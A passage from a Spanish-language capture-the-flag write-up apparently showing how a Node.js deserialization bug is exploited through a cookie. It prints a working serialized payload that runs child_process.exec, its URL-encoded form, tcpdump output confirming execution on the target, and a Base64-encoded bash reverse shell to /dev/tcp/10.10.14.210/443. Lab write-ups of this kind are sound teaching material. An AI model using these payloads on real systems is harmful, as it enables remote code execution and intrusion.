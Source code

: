 Para comprender cómo funciona esta explotación, se sugiere consultar el artículo: [Exploiting Node.js deserialization bug for Remote Code Execution | OpSecX](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/). En dicho artículo, se explica detalladamente el proceso, y es la base de los payloads que se presentan a continuación.

Utilizamos el siguiente objeto `JSON` serializado:

```bash
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ping -c 1 10.10.14.210', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```

Ahora, codificamos este objeto `JSON` en nuestra cookie utilizando `URL-encoding`.

`%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%5c%6e%20%5c%74%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%70%69%6e%67%20%2d%63%20%31%20%31%30%2e%31%30%2e%31%34%2e%32%31%30%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%5c%6e%20%7d%28%29%22%7d`

> El payload actual consiste en un simple comando "`ping`", que podemos usar en conjunto con "`tcpdump`" en nuestra máquina local para verificar si nuestro ataque funciona.
{: .prompt-tip }

Por último, configuramos `tcpdump` para que escuche en la interfaz `tun0` los paquetes `ICMP` recibidos por un ping exitoso .

```bash
❯ tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

A continuación, actualizamos nuestra cookie con el valor codificado anteriormente y recargamos la página web desde la raíz.

![cookie2](cookie2.png)

Podemos observar que los paquetes se reciben correctamente, lo que significa que podemos ejecutar código arbitrario en la máquina de destino.

```bash
❯ tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:11:30.945533 IP 10.10.11.139 > 10.10.14.210: ICMP echo request, id 1, seq 1, length 64
23:11:30.945549 IP 10.10.14.210 > 10.10.11.139: ICMP echo reply, id 1, seq 1, length 64
23:11:57.101634 IP 10.10.11.139 > 10.10.14.210: ICMP echo request, id 2, seq 1, length 64
23:11:57.101645 IP 10.10.14.210 > 10.10.11.139: ICMP echo reply, id 2, seq 1, length 64
23:12:03.724264 IP 10.10.11.139 > 10.10.14.210: ICMP echo request, id 3, seq 1, length 64
23:12:03.724287 IP 10.10.14.210 > 10.10.11.139: ICMP echo reply, id 3, seq 1, length 64
```

Una vez confirmada la ejecución del código, actualizamos nuestro payload para obtener una reverse shell. En este caso, un simple payload codificado en Base64 funciona adecuadamente:

```bash
❯ echo 'bash -i >& /dev/tcp/10.10.14.210/443 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTAvNDQzIDA+JjEK
```
